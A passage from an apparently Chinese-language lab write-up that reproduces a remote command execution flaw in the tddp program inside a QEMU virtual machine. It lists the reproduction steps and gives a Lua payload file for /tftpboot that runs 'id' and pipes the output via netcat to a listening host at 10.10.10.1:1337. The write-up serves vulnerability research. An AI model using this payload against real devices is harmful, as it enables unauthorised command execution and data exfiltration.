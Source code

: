 前面都是准备环境的环节，接着就是复现漏洞的真正操作部分了。

重现步骤为：

1. QEMU 虚拟机中启动 tddp 程序
2. 宿主机使用 NC 监听端口
3. 执行 POC，获取命令执行结果

在 atftp 的根目录 `/tftpboot` 下写入 payload 文件  
payload 文件内容为：

```text
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```



![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20190903105933851.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzgwNTQ5,size_16,color_FFFFFF,t_70)

接着在qemu虚拟机中启动tddp程序。

![](../../.gitbook/assets/image%20%28100%29.png)
